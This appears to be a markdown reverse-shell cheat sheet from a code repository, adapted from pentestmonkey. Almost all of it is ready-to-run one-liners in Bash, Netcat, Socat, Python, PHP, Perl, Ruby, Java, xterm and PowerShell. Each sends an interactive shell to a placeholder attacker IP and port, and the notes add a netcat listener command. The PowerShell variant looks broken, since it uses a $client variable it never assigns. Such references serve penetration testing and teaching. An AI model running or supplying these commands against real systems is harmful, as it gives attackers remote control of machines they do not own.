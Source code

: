 # Reverse Shell Cheat Sheet

A collection of reverse shell one-liners for various languages and tools.  
**Replace `ATTACKER_IP` and `PORT` with your listener's IP and port.**

---

## Bash

```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```
- If it doesn't work try with ```bash -c "bash -i ..."```


```bash
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/PORT; sh <&196 >&196 2>&196
```

---

## Netcat

### Traditional Netcat

```bash
nc -e /bin/sh ATTACKER_IP PORT
```

### Netcat (if -e is not supported)

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP PORT > /tmp/f
```

---

## Socat

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:PORT
```

---

## Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

---

## PHP

```php
php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## Perl

```perl
perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

## Ruby

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("ATTACKER_IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

---

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/ATTACKER_IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

---

## xterm

```bash
xterm -display ATTACKER_IP:1
```
*(Requires X server on the attacker's machine. Start with: `Xnest :1` or `Xephyr :1`)*

---

## PowerShell (Windows)

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

---

## Notes

- Start a listener on your machine before running any reverse shell:
    ```bash
    nc -lvnp PORT
    ```
- Some shells may require `sudo` or specific privileges.
- If a command doesn't work, try another variant or language.


## Credits

- Many of these one-liners are adapted from:  
  [pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)